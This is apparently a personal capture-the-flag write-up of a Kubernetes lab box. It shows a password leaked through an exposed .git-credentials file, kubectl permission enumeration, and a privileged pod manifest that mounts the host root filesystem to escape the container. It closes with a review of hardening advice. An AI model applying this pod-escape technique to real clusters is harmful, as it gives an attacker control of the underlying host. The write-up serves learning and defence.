

# Frank-and-Herby-Make-an-app Helped-Through

Name: Frank-and-Herby-Make-an-app
Date:  24/12/2022
Difficulty: Medium  
Goals:  
- Learn wtf is K8s and how to secure the K8 - gleaming the kube
- Hack the Kube.
- Have fun with Al
- Whisper to AI -  [ChatGPT](https://chat.openai.com/chat)
Learnt:
- Why marketing called it K8 instead the Kube
- groups made to bypass typing four letter words like sudo exist cross containerization adminstration
- composer.json is for php projects
- chatgtp can find some kube security stuff.
- kubectl
- yaml
- yaml file prettifer
  
Working towards my AZ104 and Kubernetes was one of the few things I have really looked into and setup. [Alh4zr3d](https://www.youtube.com/watch?v=V6GTesdyL3k) stream about boxes containing Kubernetes was here to have fun and keep my head in OSCP-esque space over the Christmas period.

ChatGTP to practice and test out from ChatGTP whispering


ChatGPT whispering


AL: *"Kubernetes is a container orchestration platform... it is way of running many containers at once, that work and configured together... the container's point is to have one application running in it.. A pod is a single instance of an application, a cluster is sync-ed up for load balancing(kubernetes manages)..The goal is Availibility and redendancy! - it is complicated"*

- Has automate network configuration - you can configure
- Not really only OSI layer - layer 69, bit of everything

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Inital recon was weird for me - why are there loads of web hosts and none of them really available.


Rescanned and found the http web server on port 31337

All links are deadends in this screens; banmg out the cloud subdomain of Hacktricks: [Hacktricks Pentesting Kubernetes](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting); firstly there is external, internal un authenticated - also inside, with creds, PrivEsc *to different namespace* which sounds cools and Kube/K8 from the cloud.

Pod Breakout - access to other machines - from inital machine to the underlying kernel and OS 
- Generally this is similiar to regular OS enumerating and privilege esc, but we searching for networked lateral movement or way to attack services running that are a part of the context and reason of which stake holders are running Kuberenetes.

Al gets ask for composer.json - 
composer. json is **a JSON file placed in the root folder of PHP project**. Its purpose is to specify a common project properties, meta data and dependencies, and it is a part of vast array of existing projects. In most ways, it is a counterpart to . NET project file. [peachpie.io](https://docs.peachpie.io/php/composer-json/)

/seclists/dirseach.txt to find that is `.git-credentials`


## Exploit

This disclosure of the credentials allows for a foothold on the box. Download and cat:


these are credentials for basic HTTP credentials; URL decode:
`frank:f@an3-1s-E337!!`

## Foothold


Trapped in the container

The home directory on the first container(s)


Al uses kubectl *"Kubernetes provides a command line tool for communicating with a Kubernetes cluster's [control plane](https://kubernetes.io/docs/reference/glossary/?all=true#term-control-plane), using the Kubernetes API."* - TL;DR a special shell that has hardcode Kubenetes API hardcoded


its in microk8s 
```bash
# check group - microk8s group, we do not need to be root 
microk8s -h
# Available subcommands are:
        add-node
        cilium
        config
        ctr
        dashboard-proxy
        dbctl
        disable
        enable
        helm
        helm3
        istioctl
        join
        juju
        kubectl # cli 
        leave
        linkerd
        refresh-certs
        remove-node
        reset
        start
        status
        stop
        inspect
```


Kubenetes check for permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

```bash
microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml
```


We need the image field.


## PrivEsc

We then create this yaml file to create another pod
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:
  containers:
    - name: shell
      image: localhost:32000/bsnginx
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

Apply this to the pod
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Create the pod to Privilege Escalate!

And checking all pods


I had issue when I did not create it in the context of kube-system so retried and 


```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```

Execute 
```bash
# this is deprecated version
microk8s kubectl exec some-pod -n kube-system --stdin --tty /bin/sh
microk8s kubectl exec some-pod -- [COMMAND] # this did not work...
```

Do not be confused
```bash
cd /mnt/root # as we a mounting back into itself.
```


## Beyond Root

Kubernetes - Continuation with [[Insekube-Writeup]] and [[Frank-and-Herby-do-it-again-Helped-Through]]

### Test to see how much ChatGPT is wrong, right and relevant: 

-   Enable encryption for all data in transit: Use Transport Layer Security (TLS) to encrypt all data transmitted between components within the cluster and between the cluster and external clients. 

The box had it enabled, but we we not laterally moving or exploiting a weakness in TLS to move between pods.

-   Use role-based access control (RBAC): Configure RBAC to control access to resources within the cluster and limit the actions that users and processes can perform.

We could access the  `kubectl` with the user frank - we could elevate as we have command execution over the cluster. 

-   Use network policies: Configure network policies to control which pods can communicate with each other and with external networks.

THM boxes have limitations of provisioning therefore there is no way networking or its policy were an issue, it would have been if our permissions of `kubectl` could affect change on other pods.  

-   Use resource limits: Set resource limits on pods to prevent a single pod from consuming too many resources and potentially affecting the performance of other pods.

DoS is not to worry the box is slow enough lol. Seriously, though we did not need to cause instability as RBAC violations were more than enough to escalate

-   Regularly update and patch your cluster: Keep your cluster up to date with the latest patches and updates to ensure that any known vulnerabilities are addressed.

Patched

-   Use monitoring and logging tools: Use monitoring and logging tools to track the health and activity of your cluster and detect unusual activity that could indicate a security threat.

A creation of bad pod with *all* the permission could be a alert as it major objective of an attacker to reach the bare metal or other hosts networked 

-   Use an ingress controller: An ingress controller is a reverse proxy that sits in front of your cluster and controls external access to your applications. Use an ingress controller to eforce SSL/TLS encryption, rate limiting, and other security measures.

Patching helps, but security policies and patching... 

-   Use a pod security policy: A pod security policy is a cluster-level resource that controls the security settings for pods, including which users and groups can create and access pods, as well as the security context and capabilities that are allowed within pods

We escalated because of RBAC violation, but a policy may have prevented this aiding the system admin inherited security policy rather than labourious granular configuration. 

Lazy `group` creation to avoid `sudo`  like command prepending - similiar to docker group issue  


Consider reading:
https://cloud.google.com/learn/what-is-kubernetes
https://kubernetes.io/
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/attacking-kubernetes-from-inside-a-pod
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-enumeration
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-role-based-access-control-rbac
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/abusing-roles-clusterroles-in-kubernetes
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-namespace-escalation
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-pivoting-to-clouds
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-hardening
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/pentesting-kubernetes-services

https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux